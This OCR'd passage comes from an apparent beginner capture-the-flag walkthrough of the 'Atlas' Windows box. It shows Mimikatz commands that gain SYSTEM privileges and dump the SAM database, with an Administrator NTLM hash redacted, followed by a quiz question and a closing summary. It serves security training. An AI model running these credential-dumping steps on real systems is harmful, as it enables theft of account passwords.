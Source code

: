 .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

---

mimikatz # lsadump::sam
Domain : GAIA
SysKey : 36c8d26ec0df8b23ce63bcefa6e2d821
Local SID : S-1-5-21-1966530601-3185510712-10604624

SAMKey : 6e708461100b4988991ce3b4d8b1784e

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: [REDACTED]

What is the Administrator account's NTLM password hash?

Task 8 :  Conclusion Final Thoughts

Congratulations -- you hacked Atlas!

This was a beginner box which has hopefully provided you with some skills which will prove useful as you progress in your hacking journey. We covered initial exploitation of outdated software, as well as exploiting the Windows PrintSpooler and dumping password hashes with Mimikatz.













